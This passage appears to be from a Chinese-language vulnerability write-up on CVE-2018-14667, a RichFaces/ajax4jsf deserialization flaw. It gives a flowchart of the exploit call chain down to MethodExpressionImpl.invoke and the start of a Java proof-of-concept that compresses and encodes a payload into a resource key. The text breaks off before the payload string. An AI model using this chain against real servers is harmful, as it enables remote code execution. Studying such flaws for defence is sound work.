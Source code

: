 利用链如下：

```mermaid
flowchart LR
	subgraph org.ajax4jsf.webapp.BaseFilter
		doFilter["doFilter()"]
	end
	subgraph org.ajax4jsf.resource.InternetResourceService
		serviceResource["serviceResource()"]
	end
	subgraph java.io.ObjectInputStream
		readObject["readObject()"]
	end
	subgraph org.ajax4jsf.resource.ResourceLifeCycle
		sendResource["sendResource()"]
	end
	subgraph org.ajax4jsf.resource.ResourceBuilderImpl
		getResourceForKey["getResourceForKey()"]
		decrypt["decrypt()"]
		createUserResource["createUserResource()"]
	end
	subgraph org.ajax4jsf.resource.UserResource
		send["send()"]
	end
	subgraph javax.faces.component.StateHolderSaver
		restore["restore()"]
	end
	subgraph org.jboss.al.MethodExpressionImpl
		invoke["invoke()"]
	end
	doFilter-->serviceResource
		-->getResourceForKey
		-->decrypt
		-->readObject
		-->sendResource
		-->createUserResource
		-->send
		-->restore
		-->invoke
```

Poc：

```java
public class CVE_2018_14667{
    private static Codec codec = new Codec();
    protected static byte[] encrypt(byte[] src){
        try {
            Deflater compressor = new Deflater(1);
            byte[] compressed = new byte[src.length + 100];
            compressor.setInput(src);
            compressor.finish();
            int totalOut = compressor.deflate(compressed);
            byte[] zipsrc = new byte[totalOut];
            System.arraycopy(compressed,0,zipsrc,0,totalOut);
            compressor.end();
            return codec.encode(zipsrc);
        } catch(Exception e) {
			throw new FacesException("Can't encode resource data",e);
		}
	}
            
	public static void main(String[] args) throws ClassNotFoundException, IOException {
        String poc =
```